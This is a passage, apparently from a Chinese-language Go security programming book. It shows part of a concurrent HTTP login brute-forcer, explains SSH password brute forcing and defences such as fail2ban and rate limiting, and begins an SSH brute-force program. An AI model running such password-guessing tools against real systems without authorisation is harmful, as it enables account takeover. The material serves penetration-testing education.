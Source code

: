 ```

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testLoginForm( 
         postUrl, 
         userField, 
         passField, 
         username, 
         password, 
         doneChannel, 
      ) 

      // If max threads reached, wait for one to finish before  
      //continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# SSH 的暴力破解

安全外壳或 SSH 支持几种身份验证机制。如果服务器仅支持公钥身份验证，那么暴力破解尝试几乎是徒劳的。这个例子仅仅关注 SSH 的密码身份验证。

要防止这种攻击，可以实施速率限制或使用像 fail2ban 这样的工具，在检测到多次失败的登录尝试后暂时锁定账户。还要禁用 root 远程登录。有些人喜欢将 SSH 放在非标准端口上，但最终可能将其放在像`2222`这样的高端非限制端口上，这不是一个好主意。如果您使用高端非特权端口（如`2222`），那么另一个低特权用户可能会劫持该端口，并在其下运行自己的服务，如果端口崩溃则会产生这种情况。如果您想要更改端口，请将 SSH 守护程序放在低于`1024`的端口上，以此来更改默认设置。

这种攻击在日志中显然很嘈杂，易于检测，并且可以通过像 fail2ban 这样的工具进行阻止。但是如果你在进行渗透测试，检查是否存在速率限制或账户锁定功能可以作为一个快速方法。如果没有配置速率限制或临时账户锁定，暴力破解和 DDoS 攻击就是潜在风险。

运行此程序需要从[golang.org](http://www.golang.org)获取一个 SSH 包。您可以使用以下命令获取它：

```
go get golang.org/x/crypto/ssh
```

安装所需的`ssh`包后，您可以运行以下示例：

```
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "os" 

   "golang.org/x/crypto/ssh" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force SSH Password 

Passwords should be separated by newlines. 
```